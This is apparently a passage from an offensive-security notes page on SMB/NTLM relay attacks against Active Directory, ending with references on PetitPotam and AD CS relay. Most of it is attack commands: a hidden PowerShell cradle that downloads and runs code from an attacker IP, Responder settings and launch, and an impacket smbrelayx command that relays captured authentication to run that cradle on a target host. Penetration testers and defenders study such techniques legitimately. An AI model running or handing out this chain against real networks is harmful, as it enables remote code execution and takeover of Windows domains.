 Copy the powershell command, e.g.: 

```
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://<ip_address>:8080/'))
```

### Setup Responder ###

Modify the Responder.conf file, change the values:

SMB = Off
HTTP = Off
HTTPS = Off

Save the file.

You can run Responder by typing python Responder.py:

```
python Responder.py -i <localip>
```

### Setup Impacket (SMB Relay)

Launch impacket smbrelayx using the following:

```
smbrelayx.py -h <hostoftarget> -c "<powershell command>"
```

# ntlmrelayx, petitpotam, printspooler

    #@PetitPotam #@ADCS #@ActiveDirectory #@Certificate #@Active #@Directory #@Services #@ActiveDirectoryCertificateServices #@ntlmrelay #@ntlmrelay.py #@impacket

## References

* SpecterOps Blog Post: Certified Pre-Owned -<br />[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
* harmj0y blog: Certified Pre-Owned -<br />[http://www.harmj0y.net/blog/activedirectory/certified-pre-owned/](http://www.harmj0y.net/blog/activedirectory/certified-pre-owned/)
* Whitepaper [https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)
* Ex Android Dev's Website:  -<br />[https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/](https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/)
    * Ex Android Dev's impacket pull request -<br />[https://github.com/SecureAuthCorp/impacket/pull/1101](https://github.com/SecureAuthCorp/impacket/pull/1101)
* ired team's walkthough: [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/adcs-+-petitpotam-ntlm-relay-obtaining-krbtgt-hash-with-domain-controller-machine-certificate](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/adcs-+-petitpotam-ntlm-relay-obtaining-krbtgt-hash-with-domain-controller-machine-certificate)
* TrueSec Blog: From Stranger to DA // Using PetitPotam to NTLM relay to Domain Administrator -<br />[https://blog.truesec.com/2021/08/05/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory/](https://blog.truesec.com/2021/08/05/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory/)
* Microsoft Documentation: Active Directory Certificate Services Overview -<br />[https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831740(v=ws.11)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831740(v=ws.11))
